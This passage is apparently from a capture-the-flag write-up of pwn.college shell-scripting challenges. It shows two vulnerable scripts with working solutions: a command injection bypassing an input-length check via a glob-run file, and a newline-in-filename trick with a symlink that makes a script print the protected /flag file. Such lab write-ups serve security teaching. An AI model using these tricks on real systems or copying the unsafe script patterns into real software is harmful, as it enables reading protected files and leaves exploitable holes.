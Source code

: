 ```sh
	[ "${#INPUT}" -gt 4 ] && exit 2
	sh -c "$INPUT" < /dev/null 2>/dev/null
done
```

### Vulnerability
- Command Injection

### Solution
```sh
echo cat /flag > /tmp/p
chmod +x /tmp/p
/challenge/run
/*/p
```



# Module 4
## Dance of the Disguised
```sh
#!/usr/bin/env -iS /opt/pwn.college/sh

PATH=/usr/bin
[ -n "$1" ] || exit 1

WORKDIR=$(mktemp -d) || exit 2
cp -rL "$1"/* $WORKDIR/files
cd $WORKDIR/files

# make sure there weren't linking shenanegans
grep -q "{" notflag* && exit 3

ls notflag* | while read FILE
do
	echo "###### FILE: $FILE #######"
	cat "$FILE"
done
```

### Vulnerability
`ls notflag* | while read FILE` (pitfall `#1`)

### Solution
- Create file with `\n` in it
```sh
ln -s /flag a
touch $'notflag\na'
```
